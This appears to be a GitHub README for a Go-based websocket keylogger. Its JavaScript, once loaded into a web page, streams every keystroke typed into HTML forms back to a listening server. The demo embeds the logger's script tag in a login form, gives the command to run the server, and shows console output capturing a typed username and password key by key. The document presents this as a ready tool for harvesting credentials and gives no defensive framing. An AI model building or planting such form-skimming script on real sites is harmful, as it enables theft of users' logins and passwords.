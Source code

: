 # Websocket keylogger

## What it is

this go tool is used to serve a Javascript websocket logger and also listens to it's inputs.

## How it works

The javascript in [logger.js](./logger.js) contains code that will connect to a websocket that is served by running the program defined in [main.go](./main.go). This program will then log all user input entered in a HTML form.

## Demo

For this demo, go to [https://jsbin.com](https://jsbin.com) and paste the following HTML into the editor window:

```html
<!DOCTYPE html>
<html>
<head>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width">
  <title>Login</title>
</head>
<body>
    <script src='http://localhost:8080/k.js'>
    </script>
    <form action='/login' method='post'>
        <input name='username' />
        <input name='password' />
        <button type='submit' />
    </form>
</body>
</html>
```

the reference `http://localhost:8080/k.js` will load the Javascript code defined in [logger.js](./logger.js)

Now run the program like this:

```sh
go run main.go --listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080
```

Now klick on `Run with JS` on your jsbin website and enter credentials, you should see all entered keys logged in the console output of the go program:

````
go run main.go --listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080
Connection from 127.0.0.1:62762
From 127.0.0.1:62762: j
From 127.0.0.1:62762: o
From 127.0.0.1:62762: n
From 127.0.0.1:62762: a
From 127.0.0.1:62762: s
From 127.0.0.1:62762: Tab
From 127.0.0.1:62762: p
From 127.0.0.1:62762: @
From 127.0.0.1:62762: a
From 127.0.0.1:62762: s
From 127.0.0.1:62762: s
From 127.0.0.1:62762: w
From 127.0.0.1:62762: o
From 127.0.0.1:62762: r
From 127.0.0.1:62762: d
```